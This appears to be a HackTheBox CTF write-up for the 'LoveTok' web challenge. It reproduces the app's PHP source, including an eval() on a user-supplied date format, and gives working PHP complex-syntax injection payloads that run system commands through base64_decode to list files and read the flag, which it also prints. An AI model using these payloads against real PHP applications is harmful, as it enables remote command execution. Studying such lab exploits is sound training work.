







---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - PHP-Complex-Syntax
  - code-review
  - php-code-injection
---
>[!quote]
> *True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛*


# Set up

- 

# Information Gathering

Site structure:

```bash
┌──(kali㉿kali)-[~/…/challange/web/LoveTok/web_lovetok]
└─$ tree
.
├── build_docker.sh
├── challenge
│   ├── assets
│   │   ├── cyberpunk.gif
│   │   └── favicon.png
│   ├── controllers
│   │   └── TimeController.php
│   ├── index.php
│   ├── models
│   │   └── TimeModel.php
│   ├── Router.php
│   ├── static
│   │   ├── css
│   │   │   └── main.css
│   │   ├── js
│   │   │   ├── koulis.js
│   │   │   └── main.js
│   │   └── koulis.gif
│   └── views
│       └── index.php
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
├── Dockerfile
├── entrypoint.sh
└── flag
```

Site:



### Important files

`challenge/index.php`

```php
<?php
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'TimeController@index');

$response = $router->match();

die($response);
```

`challenge/Router.php`

```php
<?php
class Router
{
    public $routes = [];

    public function new($method, $route, $controller)
    {
        $r = [
            'method' => $method,
            'route'  => $route,
        ];

        if (is_callable($controller))
        {
            $r['controller']    = $controller;
            $this->routes[]     = $r;
        }
        else if (strpos($controller, '@'))
        {
            $split      = explode('@', $controller);
            $class      = $split[0];
            $function   = $split[1];

            $r['controller'] = [
                'class'     => $class,
                'function'  => $function
            ];

            $this->routes[] = $r;
        }
        else
        {
            throw new Exception('Invalid controller');
        }
    }

    public function match()
    {
        foreach($this->routes as $route)
        {
            if ($this->_match_route($route['route']))
            {
                if ($route['method'] != $_SERVER['REQUEST_METHOD'])
                {
                    $this->abort(405);
                }
                $params = $this->getRouteParameters($route['route']);

                if (is_array($route['controller']))
                {
                    $controller = $route['controller'];
                    $class      = $controller['class'];
                    $function   = $controller['function'];

                    return (new $class)->$function($this,$params);
                }
                return $route['controller']($this,$params);
            }
        }

        $this->abort(404);
    }

    public function _match_route($route)
    {
        $uri = explode('/', strtok($_SERVER['REQUEST_URI'], '?'));
        $route = explode('/', $route);

        if (count($uri) != count($route)) return false;

        foreach ($route as $key => $value)
        {
            if ($uri[$key] != $value && $value != '{param}') return false;
        }

        return true;
    }

    public function getRouteParameters($route)
    {
        $params = [];
        $uri = explode('/', strtok($_SERVER['REQUEST_URI'], '?'));
        $route = explode('/', $route);

        foreach ($route as $key => $value)
        {
            if ($uri[$key] == $value) continue;
            if ($value == '{param}')
            {
                if ($uri[$key] == '')
                {
                    $this->abort(404);
                }
                $params[] = $uri[$key];
            }
        }

        return $params;
    }

    public function abort($code)
    {
        http_response_code($code);
        exit;
    }

    public function view($view, $data = [])
    {
        extract($data);
        include __DIR__."/views/${view}.php";
        exit;
    }
}
```

`challenge/controllers/TimeController.php`

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

`challenge/models/TimeModel.php`

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

## Exploitation - RCE abusing PHP Complex Syntax




`/?format=<@urlencode_all>${system(id)}<@/urlencode_all>`



Error using white spaces:



White-space error bypass using base64:
`/?format=<@urlencode_all>${system(base64_decode(<@base64>ls -al<@/base64>))}<@/urlencode_all>`



`/?format=${system(base64_decode(<@base64>ls ../<@/base64>))}`



`/?format=${system(base64_decode(<@base64>cat ../flagXGYLX  <@/base64>))}`



## Flag.txt

>[!success]
`HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}`
